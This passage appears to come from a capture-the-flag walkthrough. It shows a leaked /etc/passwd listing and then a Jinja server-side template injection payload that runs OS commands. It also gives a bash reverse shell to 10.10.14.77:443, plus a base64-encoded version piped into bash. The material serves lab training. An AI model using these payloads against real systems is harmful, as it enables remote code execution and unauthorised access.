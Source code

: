```
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
fwupd-refresh:x:113:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
mysql:x:114:120:MySQL Server,,,:/nonexistent:/bin/false
silentobserver:x:1001:1001::/home/silentobserver:/bin/bash
atlas:x:1000:1000::/home/atlas:/bin/bash
_laurel:x:997:997::/var/log/laurel:/bin/false
```

Looking at this we can see that there are two users on this machine that aren't service accounts or standard linux accounts **silentobserver** and **atlas**.

Now that we have proof of execution we should try to get code execution on the machine. We can run system commands using the following jinja template payload.

```
{% raw %}
{{self._TemplateReference__context.namespace.__init__.__globals__.os.popen('YOUR COMMANDS HERE').read() }}
{% endraw %}
```

To avoid any issues with syntax i decided to base64 encode my reverse shell before putting it in the jinja template

```
echo -n '/bin/bash -l > /dev/tcp/10.10.14.77/443 0<&1 2>&1' | base64

```

this command gave us the following B64 encoded string 
```
L2Jpbi9iYXNoIC1sID4gL2Rldi90Y3AvMTAuMTAuMTQuNzcvNDQzIDA8JjEgMj4mMQ==
```

Then using this B64 string our payload will look like this:

```
echo L2Jpbi9iYXNoIC1sID4gL2Rldi90Y3AvMTAuMTAuMTQuNzcvNDQzIDA8JjEgMj4mMQ== | base64 --decode | bash
```
